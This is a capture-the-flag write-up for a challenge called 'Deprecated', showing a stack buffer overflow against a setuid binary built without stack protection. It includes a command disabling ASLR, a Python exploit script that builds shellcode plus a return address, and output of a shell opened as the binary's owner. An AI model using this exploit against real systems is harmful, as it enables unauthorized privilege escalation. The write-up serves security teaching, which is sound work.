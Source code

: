 # Deprecated

**Points: 350**

Please help us test our fantastic guest application. Located at /guest/derp
I really hope it doesn't use deprecated functions.

`ssh guest@10.20.210.10`

### Setup
If you want to test this on your own machine, ASLR (Address Space Layout Randomization) has to be disabled first:

`# echo 0 > /proc/sys/kernel/randomize_va_space`

As you can see in the Makefile, we've turned on execstack and compiled without any stack protection.

### How to pwn
This challenge is a standard (old) buffer overflow challenge. The binary has been compiled without stack protection, no NX bit, and ASLR is disabled on the system. The binary also has the setuid bit, which means that it temporarily runs with the privileges of the owner (in this case the user `flag`).

`-rwsr-sr-x 1 flag flag 6.8K useless`

The first thing we need is our shellcode, the file `shell.s` contains shellcode that will spawn a shell as the user who owns the program.

**Insert shellcode explanation here**

Exploit layout:
```
  45 bytes      27 bytes	8 bytes
+-----------+-----------------+-------+
| shellcode |   padding	      |address|
+-----------+-----------------+-------+
```

This will overwrite the saved return address and trick the program into returning to the start of the buffer, where we have placed our shellcode.

Here's a simple way to construct the exploit with python:

```python
from struct import pack

shellcode = ""

with open('shell') as sc:
    data = sc.read()
    for i in data:
        shellcode += i
    sc.close()

buf_addr = pack("<q", 0x7fffffffe7c0)

pad_len = 72 - len(shellcode)

shellcode += "A" * pad_len
shellcode += buf_addr

print shellcode
```

Let's see if it works!

```
$ ( python2 pwn.py ; cat ) | ./gets
0x7fffffffe7c0
You entered: jkXPPP_^ZjuXH1�PP^ZH��/bin/shH�WT_j;XAAAAAAAAAAAAAAAAAAAAAAAAAAA�����

whoami
flag
cat flag
e4AEQd2%nu
exit

```

### Links
[Smashing the Stack For Fun And Profit](http://insecure.org/stf/smashstack.html)
